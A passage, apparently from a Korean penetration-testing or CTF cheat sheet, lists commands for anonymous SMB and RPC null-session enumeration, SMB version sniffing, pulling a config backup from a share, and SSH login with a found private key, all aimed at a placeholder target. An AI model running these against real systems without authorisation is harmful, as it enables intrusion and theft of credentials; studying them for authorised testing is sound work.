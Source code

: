 ```bash
# 익명 접속 테스트
smbclient -L //TARGET_IP -N

# 특정 공유 접속
smbclient //TARGET_IP/share -N

# 공유 내 재귀적 파일 검색
mask ""
recurse ON
prompt OFF
ls
```

#### 🔵 RPC 정보 수집

```bash
# NULL 세션으로 연결
rpcclient -U "" -N TARGET_IP

# 사용자 열거
rpcclient $> enumdomusers
rpcclient $> queryuser 500

# 그룹 정보
rpcclient $> enumdomgroups
```

#### 🔵 SMB 버전 확인 (CVE 검색용)

```bash
# SMB 버전 수동 체크
ngrep -i -d tun0 's.?a.?m.?b.?a.*[[:digit:]]' 'host TARGET_IP and port 139'
```

#### 🔵 실제 사례: 민감한 파일 발견

```bash
# SMB 공유에서 발견된 .bak 파일 분석
smbclient //TARGET_IP/backups
smb: \> get config.php.bak
smb: \> exit
cat config.php.bak
```

### 3. **SSH (22) - 관점 전환**

#### 🔵 표준 접근법

```bash
# 배너 정보 수집
nc -nv TARGET_IP 22

# 키 기반 인증 시도 (발견한 키 파일 사용)
chmod 600 id_rsa
ssh -i id_rsa user@TARGET_IP
```
